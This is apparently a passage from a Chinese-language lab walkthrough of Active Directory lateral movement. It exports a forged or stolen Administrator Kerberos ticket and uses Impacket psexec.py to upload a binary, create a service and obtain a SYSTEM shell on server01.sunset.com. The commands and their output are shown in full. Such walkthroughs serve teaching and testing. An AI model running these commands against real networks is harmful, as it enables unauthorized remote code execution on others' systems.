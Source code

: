 ```jsx
 ⚡ root@kali  ~/Desktop/Tools/pywerview/output  export KRB5CCNAME=Administrator@cifs_server01.sunset.com@SUNSET.COM.ccache                                                                                                       
```

`psexec`连接主机，指定使用票据

```jsx
 ⚡ root@kali  ~/Desktop/Tools/pywerview/output  psexec.py -no-pass -k server01.sunset.com -dc-ip 192.168.111.167                                                                                                                 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Requesting shares on server01.sunset.com.....                                                                 
[*] Found writable share ADMIN$                                                                                                                                                                                                     
[*] Uploading file MmuygSws.exe                          
[*] Opening SVCManager on server01.sunset.com.....                                                                
[*] Creating service tRjX on server01.sunset.com.....                                                             
[*] Starting service tRjX.....                                                                                                                                                                                                      
[!] Press help for extra shell commands                                                                           
[-] Decoding error detected, consider running chcp.com at the target,                                             
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings                                                                                                                                                
and then execute smbexec.py again with -codec and the corresponding codec                                         
Microsoft Windows [�汾 6.1.7601]                                                                                  
                                                         
[-] Decoding error detected, consider running chcp.com at the target,                                             
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings                                                                                                                                                
and then execute smbexec.py again with -codec and the corresponding codec                                         
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����                                                             
                                                                                                                  
                                                         
C:\Windows\system32> whoami
nt authority\system                                          
```
